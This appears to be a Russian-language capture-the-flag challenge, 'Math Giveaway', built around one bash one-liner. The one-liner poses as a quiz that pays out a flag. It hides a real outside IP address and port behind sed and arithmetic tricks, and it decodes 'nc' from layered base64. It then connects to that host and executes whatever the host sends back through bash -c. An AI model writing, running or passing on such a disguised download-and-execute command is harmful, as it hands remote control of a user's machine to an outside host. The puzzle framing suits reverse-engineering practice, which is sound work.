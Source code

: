 # Math Giveaway
Автор: [@sultanowskii](http://t.me/sultanowskii)

Эта однострочная программа была найдена ПК 5up3r\_U53r\_2004 в ходе расследования его злодеяний.

**/!\\ ВНИМАНИЕ /!\\** Эта команда запускается только на линуксе

```bash
bash -c 'echo "[*] Math Giveaway v1.0. Just tell me what is 2*2+2 and get yo flag!"; read q; if ! [[ $q -eq 6 ]]; then echo "[!] Incorrect answer :c"; else echo "[.] Gettin yo flag, please, stand by..."; srv="`echo "127.0.0.1" | sed "s/12/7/g" | sed "s/1/24/g" | sed "s/7.0/7.q/g" | sed "s/0/96/g" | sed "s/q/223/g"` `expr $(expr $(expr 20 \* 15)) \* $(expr $(expr 20 \* 5) - 30) + 6`"; if [[ `$(echo "==QPN1mY" | rev | base64 -d | base64 -d) -z ${srv};` -eq 0 ]]; then sleep 3; bash -c "`(echo "JZDFGQJ5HU6T2===" | base32 -d | base32 -d | bash;) | $(bash -c "echo bmM= | base64 -d") -n $(echo "${srv}")`"; else echo "[!] Plz check ur internet connection"; fi; fi;'
```
